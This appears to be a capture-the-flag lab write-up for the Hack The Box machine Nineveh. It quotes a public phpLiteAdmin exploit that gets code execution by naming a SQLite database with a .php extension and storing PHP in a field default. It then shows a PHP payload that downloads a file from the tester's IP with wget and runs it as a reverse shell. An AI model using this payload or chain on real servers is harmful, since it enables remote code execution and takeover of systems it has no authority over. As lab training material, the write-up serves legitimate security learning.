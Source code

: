 ```tct
phpliteadmin.php#1785: 'When you create a new database, the name you entered will be appended with the appropriate file extension (.db, .db3, .sqlite, etc.) if you do not include it yourself. The database will be created in the directory you specified as the $directory variable.',

An Attacker can create a sqlite Database with a php extension and insert PHP Code as text fields. When done the Attacker can execute it simply by access the database file with the Webbrowser.

Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.
Preview: http://goo.gl/B5n9O
Hex preview: http://goo.gl/lJ5iQ

2. Now create a new table in this database and insert a text field with the default value:
<?php phpinfo()?>
Hex preview: http://goo.gl/v7USQ

3. Now we run hack.php

Done!

Proof: http://goo.gl/ZqPVL
```

The exploit `24044.txt` from `searchsploit` describes how to exploit phpLiteAdmin to get RCE using the following steps:

1.  Create a new database ending with `.php`:

![[Nineveh-06.png]]

2.  I’ll click on the new db to switch to it, and create a table with 1 text field with a default value of a basic PHP webshell. Note it’s important to use `"` in the PHP, as `'` is being used by the database to define the entire string:

![[Nineveh-07.png]]

let' google "reverse shell cheat sheet", and input the php reverse shell.

```php
<?php system("wget 10.10.14.6/shell.txt -O /tmp/shell.php; php /tmp/shell.php"); ?>
```

![[Nineveh-08.png]]
![[Nineveh-10.png]]

and we will create a php reverse shell which rename it as shell.txt and change the destination ip address (https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

![[Nineveh-16.png]]
